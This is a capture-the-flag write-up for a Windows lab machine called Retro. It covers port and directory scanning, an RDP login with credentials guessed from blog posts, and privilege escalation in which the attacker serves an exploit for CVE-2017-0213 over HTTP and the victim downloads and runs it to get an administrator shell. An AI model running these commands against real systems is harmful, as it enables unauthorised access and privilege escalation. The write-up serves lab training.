 I start to enumerate the machine and run an nmap scan to find open ports on the retro machine.
Since it is a windows machine and most likely blocks pings I use the -Pn(no pings) option.

```
nmap -sV -Pn 10.10.220.226
```
We found 2 open ports 80(http) & 3389(RDP). So we know that RDP is enabled on the the machine and that we can use the
browser to access the server.

After that I do directory crawling with gobuster to look for hidden directories that might lead to vulnerabilities.

```
gobuster dir -u http://10.10.220.226 -w=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
I find a directory called 
```
 http://10.10.220.226/retro/
```
and decide to check it out. We found a wordpress log in page when we scroll to the bottom of the page that leads to a wordpress login form.
We also found some interesting blog post from the user Wade one which talks about how his favorite bood Ready Player One was
turned into a movie and doing some research on the book we find out about Parzival. I decided to use these credentials to gain 
initial access through RDP.

Command used:
```
xfreerdp /u:wade /p:parzival /cert:ignore /v:10.10.220.226 /workarea
```
We logged in successfully and found the first flag 

User: 3b99fbdc6d430bfb51c72c651a261927

Privledge Escalation:

For privledge escalation we first checked out the system info and searched for a way to exploit the system.
command used:
```
sysinfo
```
After that I found an exploit and a payload to upload to the server 
CVE #: CVE-2017-0213
The exploit URL: https://github.com/WindowsExploits/Exploits/tree/master/CVE-2017-0213

commands used:
Attacker:
```
python3 -m http.server --bind 10.6.30.236
```
Victim:
```
Invoke-WebRequest -Uri http://10.6.30.236:8000/CVE-2017-0213_x64.exe -Outfile CVE-2017-0213_x64.exe
```
```
.\CVE-2017-0213_x64.exe 
```
This gave an administrators shell and I was able to find the last flag in C:\Users\Administrator\Desktop

root: 7958b565d7bd88d10c6f22d1c4063
